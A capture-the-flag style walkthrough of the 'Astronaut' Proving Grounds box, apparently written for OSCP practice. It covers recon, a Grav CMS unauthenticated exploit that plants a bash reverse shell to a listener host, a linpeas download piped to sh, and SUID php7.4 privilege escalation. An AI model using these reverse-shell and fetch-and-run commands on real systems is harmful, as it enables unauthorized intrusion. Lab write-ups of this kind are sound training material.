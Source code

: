 ```yaml
---
title: Astronaut
date: 2023-12-22
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Easy
---
```


![info](./info.png)

# Recon
![info-comm](./info-comm.png)
This machine has a Linux OS and is rated intermediate by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.188.12  astronaut.offsec
```
## Nmap
``` bash
nmap -p- --open -sC -sV astronaut.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.
![nmap](./nmap.png)

The nmap scan discovered a volume with `grav-admin` folder.
- Browsing to this folder in the browser `http://astronaut.offsec/grav-admin/` shows a default installation page

## Gobuster
``` bash
gobuster dir -u astronaut.offsec/grav-admin/ -w /usr/share/seclists/Discovery/Web-Content/common.txt 
```
![gobuster](./gobuster.png)
The gobuster scan found an admin panel at `/admin/` and many other endpoints.

## Searchsploit
As the website is built with grav, we can search for known exploits using searchsploit.
``` bash
searchsploit grav
``` 
![searchsploit](./searchsploit.png)
I  like to look at python scripts first, so the first script I will look at is the Arbitrary YAML Write/Update script as that one is **unauthenticated**.

### Arbitrary YAML Write/Update
First, download the unauthenticated script by using `searchsploit -m php/webapps/49973.py`
- looking at the code, we can see that the target is set to a variable
- change this target to `http://astronaut.offsec/grav-admin`
  - this is because the URL `http://astronaut.offsec` only has a directory named grav-admin, so we must specify that directory for the exploit
- the script says to run the following command and replace the output with the base64 encoded value in the script
![scriptChange](./scriptChange.png)

For the command, you will need to replace the IP and port to the listening host (Kali IP and Port)
- I will be using the command `nc -lnvp 4444` to start a listener on my kali host with IP `192.168.45.220`
- So, the command I will run is `echo -ne "bash -i >& /dev/tcp/192.168.45.220/4444 0>&1" | base64 -w0`
- then, replace the contents in the designated `base64_decode()` function

Start a netcat listener and run the script using `python3 49973.py`
- after a couple seconds, a shell is generated with the user
![shell](./shell.png)

# Privilege Escalation
## Manual commands
``` bash
find / -type f -perm -4001 -exec ls -la {} \; 2> /dev/null
```

### Explanation:
`find / -type f -perm -4001`:
find: Initiates the find command for searching files and directories.
`/`: Specifies the starting directory for the search (root directory in this case).
`-type f`: Specifies that only files (not directories) should be considered in the search.
`-perm -4001`: Searches for files with the SUID bit set. The SUID bit, when set, allows a file to be executed with the permissions of its owner.

`-exec ls -la {} \;`:
`-exec`: Executes a command for each matched file. The command is
  `ls -la {}`: Uses the `ls` command to list information about the found files. The `-la` option is used to make a list showing all files and details.
  `{}`: is replaced by the matched file for each iteration.
  `\;`: Marks the end of the -exec command.

`2> /dev/null`:
`2>`: Redirects standard error (stderr) to a specified location.
`/dev/null`: A special file in Unix-like operating systems that discards any data written to it.

![manual-enum](./manual-enum.png)

## Linpeas
To assess the attack surface further, run `linpeas.sh` on the target:
- run a python http server in the directory with the `linpeas.sh` file with `python3 -m http.server 80`
- then use the `curl` command with `sh` to run the script on the target machine
- the IP specified is downloading from my Kali host
``` bash
curl http://192.168.45.220/linpeas.sh | sh
```

### Linpeas Results
The linpeas results showed php7.4 binary file in the directory `/usr/bin/php7.4` that has an unknown SUID binary. The output is shown below
```
-rwsr-xr-x 1 root root 4.6M Feb 23  2023 /usr/bin/php7.4 (Unknown SUID binary!)
```

We can confirm these findings with the manual enumeration commands we used. We did indeed find a php7.4 file.
- Using this information we can try to find privilege escalation for PHP SUID in [GTFOBins](https://gtfobins.github.io/gtfobins/php/)

GTFOBins uses the following command, the previous parts can be ignored as we know the version number of php.
``` bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

In order for this command to fit our context, we would change the running script to 
``` bash
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```
- the flag is located in the `/root` folder

# Summary
The "Astronaut" box in Proving Grounds Practice involves a comprehensive penetration testing approach. 
Initial reconnaissance using Nmap uncovers a Grav CMS installation with potential vulnerabilities. 
Gobuster identifies an admin panel, while Searchsploit yields an unauthenticated YAML Write/Update script which needs to be adapted. 
Manual enumeration reveals files with the SUID bit set, further explored with LinPEAS, confirming an unknown SUID binary, `/usr/bin/php7.4`. 
Exploiting this binary using GTFOBins facilitates privilege escalation, granting access to the /root folder where the flag is found. 
This walkthrough provides practical insights into various stages of a penetration test, offering a valuable learning experience for OSCP preparation.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points

